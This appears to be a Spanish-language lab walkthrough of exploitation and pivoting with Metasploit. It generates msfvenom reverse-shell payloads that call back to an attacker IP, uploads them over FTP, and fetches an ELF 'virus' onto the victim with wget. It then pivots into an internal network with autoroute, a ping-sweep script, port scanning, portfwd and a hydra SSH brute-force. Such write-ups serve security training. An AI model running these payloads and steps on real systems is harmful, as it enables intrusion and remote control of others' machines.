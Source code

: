 - Tenemos una maquina con el puerto 21 abierto, por ese puerto vamos a subir un payloads para generara una reverse.
```
msfvenom -p php/reverse_php LHOST=(IP_ATACANTE) LPORT=443 -f raw > pwned.php
```
![[Pasted image 20250112171153.png]]
- Entramos en el ftp y usamos el comando ==put== + el nombre de archivo que creamos para poder subirlo.
![[Pasted image 20250112171319.png]]
- Dejamos en escucha y en la URL del navegador ponemos la IP victima / nombre del archivo para entrar.
![[Pasted image 20250112171424.png]]
- Ya estamos dentro, vamos a hacer otra conexión mas estable.
- Para ingresar en la maquina victima la reverse primero se pone ==bash -c==.
- Casi igual que con Windows, vamos a crear un payload en msfvenom para generar un meterpreter en Linux.
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP_ATACANTE) LPORT=4444 -f elf -b '\x00\x0a\x0d' -o virus
```
![[Pasted image 20250112172319.png]]
- Ahora vamos a compartirlo con la maquina victima levantando un servidor en Python.
```
python3 -m http.server 80
```
- En la sesión ya iniciada que tenemos en la maquina victima usamos el siguiente comando:
```
wget (IP_ATACANTE)/(NOMBRE_FICHERO)
```
![[Pasted image 20250112172542.png]]
- Ahora, vamos a abrir metasploit y crear la sesión de meterpreter.
```
use /multi/handler
```
![[Pasted image 20250112172732.png]]
- Lo configuramos.
![[Pasted image 20250112172757.png]]
- Ingresamos el payload correcto que especificamos en ==msfvenom==, nuestra IP, le damos a run y ejecutamos el archivo virus en la maquina victima.
![[Pasted image 20250112173002.png]]
- Ahora en la maquina victima vamos a darle permiso de ejecución al archivo virus y después ejecutarlo.
![[Pasted image 20250112173153.png]]
- Ya tenemos nuestra sesión meterpreter.
![[Pasted image 20250112173216.png]]
- Si ahora ejecutamos shell y después whoami, vamos a ver que somos usuario ==www-data==, así no se puede hacer Pivoting.
![[Pasted image 20250112173341.png]]
- Tenemos que ser root.
- Para eso tenemos que escalar privilegios en la maquina victima, así que vamos a salir de la sesión interpreter.
![[Pasted image 20250112173641.png]]
- Ahora que somos root.
- Ahora podemos volver al meterpreter.
![[Pasted image 20250112173831.png]]
- Ahora somos root.
- Estando en meterpreter vamos a ejecutar el comando ==ifconfig== , para ver si hay mas maquinas en la red interna.
![[Pasted image 20250112174107.png]]
- Aquí la tenemos.
- Ahora apretamos `ctrl + z` y lo pasamos a segundo plano.
![[Pasted image 20250112174216.png]]
- Si ejecutamos el comando `sessions -l`
![[Pasted image 20250112174307.png]]
- Podemos ver la session interpreter que tiene como ID el 2.
- Ahora ejecutamos el siguiente modulo.
```
use /multi/manage/autoroute
```
![[Pasted image 20250112174450.png]]
- Vamos a configurarlo.
![[Pasted image 20250112174515.png]]
- Aquí solo nos pide SESSION que en este caso seria el numero 2.
![[Pasted image 20250112174550.png]]
- Ejecutamos.
![[Pasted image 20250112174611.png]]
- Ahora el trafico esta enrutado.
- Si ejecutamos el comando `route`, lo vamos a poder ver.
![[Pasted image 20250112174652.png]]
- Están conectadas ambas interfaces de red.
- Ahora hay que conocer las IPS, los HOSTS que están en la red interna.
- Ahora , abrimos otro terminal y usamos este código:
```
nano escaner.sh
```
- Dentro ponemos el siguiente código:
```
#!/bin/bash

for i in {1..255}; do
	timeout 1 bash -c "ping -c 1 10.10.10.$i" >/dev/null
	if [ $? -eq 0 ]; then
		echo "El host 10.10.10.$i está activo"
	fi
done
```
- Este comando ejecuta el comando ==ping== generando una traza ismp a cada uno de los posibles hosts que estén dentro de la red interna.
- Ahora lo compartimos con la maquina victima.
- Para eso en msf usamos el comando:
```
sessions -i (numero de sessions)
```
![[Pasted image 20250112175758.png]]
- Aquí ejecutamos shell.
- ejecutamos el comando:
```
wget (IP_ATACANTE)/(ARCHIVO)
```
- Ya lo tendremos en la maquina victima.
![[Pasted image 20250112175941.png]]
- Ahí mismo le damos permiso de ejecución y lo ejecutamos
![[Pasted image 20250112180107.png]]
- Podemos ver las IP que están activas.
- Vamos a usar la IP 10.10.10.7 que es la IP que sabemos que tenemos de una de las maquinas virtuales que abrimos.
- Volvemos a la sesión de interpreter y luego `ctrl + z`
![[Pasted image 20250112180345.png]]
- Ahora usamos un modulo que es para escanear puertos
```
use scanner/portscan/tcp
```
![[Pasted image 20250112180456.png]]
- Lo configuramos.
![[Pasted image 20250112180527.png]]
- Agregamos el RHOSTS.
![[Pasted image 20250112180639.png]]
- Agregamos la IP de la maquina que queremos escanear.
- Ejecutamos.
![[Pasted image 20250112180715.png]]
- Ya sabemos que puertos tiene abiertos.
- Vamos a atacar los puertos 22 y 631.
- Vamos a traernos los 2 puertos a un puertos especifico.
	- Eso lo tenemos que hacer si o si desde la sesión interpreter.
- Para eso vamos a meternos a la session 2.
![[Pasted image 20250112180923.png]]
- Para hacerlo ahora, ocupamos el siguiente comando:
```
portfwd add -l 222 -p 22 -r 10.10.10.7
```
![[Pasted image 20250112181114.png]]
- Ahora vamos a hacer un ssh (con los datos que ya conocíamos de esta maquina)
```
ssh (usuario)@(IP_ATACANTE) -p (PUERTO_QUE_ESCOGIMOS)
```
![[Pasted image 20250112181337.png]]
![[Pasted image 20250112181402.png]]
- Ahora vamos a traer el puerto 631
```
portfwd add -l 5000 -p 631 -r 10.10.10.7
```
- Si nos damos cuenta solo cambian los puertos.
![[Pasted image 20250112181527.png]]
- Si pongo en el URL del navegador:
```
127.0.0.1:5000
```
![[Pasted image 20250112181635.png]]
- Estoy dentro.

- Si quiero hacer un ataque con ==hydra== ocuparia el siguiente comando.
```
hydra -l (NOMBRE) -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1 -s 222
```
- 222 porque habíamos dejado el puerto 22 en el puerto 222.